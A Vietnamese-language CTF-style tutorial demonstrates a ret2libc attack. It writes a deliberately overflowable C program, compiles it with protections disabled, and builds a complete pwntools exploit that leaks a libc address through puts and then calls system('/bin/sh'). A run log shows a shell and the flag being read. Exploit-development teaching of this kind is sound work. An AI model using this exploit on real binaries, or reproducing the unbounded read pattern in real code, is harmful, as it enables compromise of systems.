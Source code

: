 # ret2libc_chall_demo_file

* Chúng ta sẽ xây dựng một chương trình đơn giản, sử dụng hàm read để gây lỗi tràn bộ đệm, và dùng puts để in ra một giá trị từ GOT (trong trường hợp này, chúng ta có thể leak địa chỉ của puts).

*Code chương trình C (ret2libc.c):*
```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main() {
    char buffer[64];
    setbuf(stdout, NULL);
    puts("Nhap: ");
    read(0, buffer, 256);
    return 0;
}
```
* Biên dịch chương trình để tạo file challenge, vì ret2libc là kỹ thuật vượt NX, vậy ta sẽ tắt các cơ chế bảo vệ khác trừ NX:
```bash
 gcc -fno-stack-protector -no-pie ret2libc.c -o chall3
 ```

 # Tiến hành khai thác
 ## Phân tích mã giả bằng IDA64 
 (Mặc dù đã phát hiện lỗ hổng từ chương trình C nhưng vẫn đưa bước này vào để khái quát tuần tự quá trình khai thác)
 ```bash
 ida64 chall3
 ```
 * Pseudo code
 ```
 int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  setbuf(_bss_start, 0LL);
  puts("Nhap: ");
  read(0, buf, 256uLL);
  return 0;
}
```
**Tại sao lại dùng ret2libc?**
* Có lỗi buffer overflow xảy ra
* NX enabled : không thế thực thi shellcode trên stack
* Không có hàm nào khác để lợi dụng mở shell
* Có thư viện libc
=> Lợi dụng một hàm trong chương trình để leak địa chỉ libc_base địa chỉ libc để tạo shell
**GOT & PLT**
* GOT là một bảng chứa các địa chỉ của các hàm trong thư viện
* PLT: chứa mã (code) để gọi đến hàm thông qua GOT
## Tìm offset để ghi đè return address
**Debug bằng gdb với công cụ pwndbg:**
* Chạy chương trình với input gây buffer overflow và kiểm tra giá trị save rip:
```bash
pwndbg> cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

## Scipt khai thác
### Leak libc_address ( Lần gửi payload đầu tiên )
1. Tìm địa chỉ của gadget `pop rdi ; ret`
```bash
ROPgadget --binary chall3 | grep "pop rdi"
0x0000000000401146 : pop rdi ; ret
```
```python
pop_rdi = 0x0000000000401146
```
2. Đặt vào RDI địa chỉ GOT của hàm `puts`.
```python
payload = b'A' * 72
payload += p64(pop_rdi) + p64(exe.got['puts'])
```
3. Gọi `puts@plt` để in địa chỉ thực của hàm đó trong libc.
```python
payload += p64(exe.plt['puts'])
```
4. Quay lại hàm main (hoặc một địa điểm nào đó) để thực hiện lần overflow thứ hai.
```python
payload += p64(exe.sym['main'])
```
* Gửi payload
```python
p.sendafter(b'Nhap: \n', payload)
```

5. Tính toán địa chỉ base của libc
```python
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
log.info("Libc leak: " + hex(libc_leak))      # In ra để kiểm tra
log.info("Libc base: " + hex(libc.address))
```

### Giải thích chi tiết:
#### 1. **Cấu trúc của libc**
- Libc là một thư viện chia sẻ (shared library) chứa các hàm C cơ bản (như `puts`, `printf`, `system`, ...).
- Khi chương trình được nạp vào bộ nhớ, toàn bộ libc được ánh xạ vào một vùng nhớ ảo. Địa chỉ bắt đầu của vùng nhớ này gọi là **libc base address**.
- Mỗi hàm trong libc có một **offset cố định** so với libc base. Offset này không bao giờ thay đổi (với cùng một bản libc).
#### 2. **Công thức tính toán**
```
libc_base = leaked_address - offset_của_hàm_trong_libc
```
- `leaked_address`: địa chỉ thực tế của hàm (ví dụ `puts`) trong bộ nhớ tại thời điểm chạy.
- `offset_của_hàm_trong_libc`: vị trí tương đối của hàm đó so với libc base. Giá trị này được lấy từ file libc (bằng cách dùng `libc.sym['puts']` trong pwntools).
- Khi giải CTF trên server ta cần patch file binary với file libc đúng ( Thử với libc tìm được trên [libc.rip](https://libc.rip/)) bằng công cụ pwninit.
### Lấy shell ( Lần gửi payload tiếp theo )
**Mục tiêu là gọi `system("/bin/sh")`.**
```python
payload = b'A' * 72
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
p.sendafter(b'Nhap: \n', payload)
p.interactive()
```
* Chúng ta cũng cần đảm bảo rằng chương trình không gặp lỗi. Nếu có vấn đề về stack alignment ( lỗi căn chỉnh stack ), có thể thêm một gadget `ret` trước khi gọi `system`:
```python
ret = 0x0000000000401016
payload = b'A' * 72
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(libc.sym['system'])
p.sendafter(b'Nhap: \n', payload)
p.interactive()
```
### Script hoàn chỉnh ( solve3.py )
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./chall3',checksec=False)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)

context.binary = exe
p = process(exe.path)

pop_rdi = 0x0000000000401146

# PAYLOAD

### LEAK LIBC ADDRESS ###
payload = b'A' * 72
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
p.sendafter(b'Nhap: \n', payload)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))

ret = 0x0000000000401016
### GET SHELL ###
payload = b'A' * 72
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(libc.sym['system'])
p.sendafter(b'Nhap: \n', payload)

p.interactive()
```
### Chạy thử
```
 ./solve3.py
[+] Starting local process '/mnt/c/Users/ASUS/Downloads/chall3': pid 510962
[*] Libc leak: 0x7fd3eb05a5a0
[*] Libc base: 0x7fd3eafda000
[*] Switching to interactive mode
$ ls
 chall3
 Flag.txt
$ cat Flag.txt
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
$
```









